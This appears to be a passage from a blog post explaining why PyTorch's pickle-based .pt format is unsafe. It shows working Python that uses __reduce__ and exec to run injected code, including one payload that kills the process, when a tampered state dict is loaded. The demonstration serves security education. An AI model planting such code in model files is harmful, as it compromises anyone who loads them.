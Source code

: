 Under the hood, the `.pt` format uses python's pickle strategy to serialize and deserialize the state dictionary. While pickle is versatile enough to serialize nearly any Python object, this flexibility comes at a severe security cost: pickle can __execute arbitary code during deserialization__. One way to hack the models weights is to modify its `__reduce__` method to execute arbitrary code.

```python
class PythonObj:
	def __reduce__(self):
		return (exec, ("print('hello')") )
```

If you serialize this class object and load the object back, you will see the reduce method being executed. Specifically, you will see a `hello`  statement being printed whenever you load the pickled file.

In case of a man-in-the-middle attack where  model classes are already defined and their objects are pickled, we can bind the malicious `reduce` function code to the pickled object. Here's how an attacker might bind the malicious code to a given object to execute harmful code:
```python

class MaliciousObject:

	def __init__(self, original_obj, code_str):
		self.original_obj = original_obj
		self.code_str = code_str

	def __reduce__(self):
		"""
		This func is called when the object is deserialized.
		This will call `execute_and_return` func which
		executes the malicious code and also returns the original
		object for reconstruction.
		"""
		return (self.execute_and_return, (self.code_str, self.original_obj))

  	@staticmethod
	def execute_and_return(code_str, obj):	
		exec(code_str)
		return obj

MALICIOUS_CODE_STR = """
print('hello')
"""

state_dict = MaliciousObject(state_dict, MALICIOUS_CODE_STR)
```

Let's extend this to a critical scenario by replacing the print statement.

```python
MALICIOUS_CODE_STR = """
import os

pid = os.getpid() # get program-id of the current program
os.kill(pid, 9) # kill the current program
"""
```
<figure>
    <a href="{{ site.url }}/{{ site.baseurl }}/assets/images/safetensors/pikachu.png"><img src="{{ site.url }}/{{ site.baseurl }}/assets/images/safetensors/pikachu.png"></a>
    <figcaption><b>Figure 1:</b> <i> Developers when they realize that the training is corrupted</i></figcaption>
</figure>
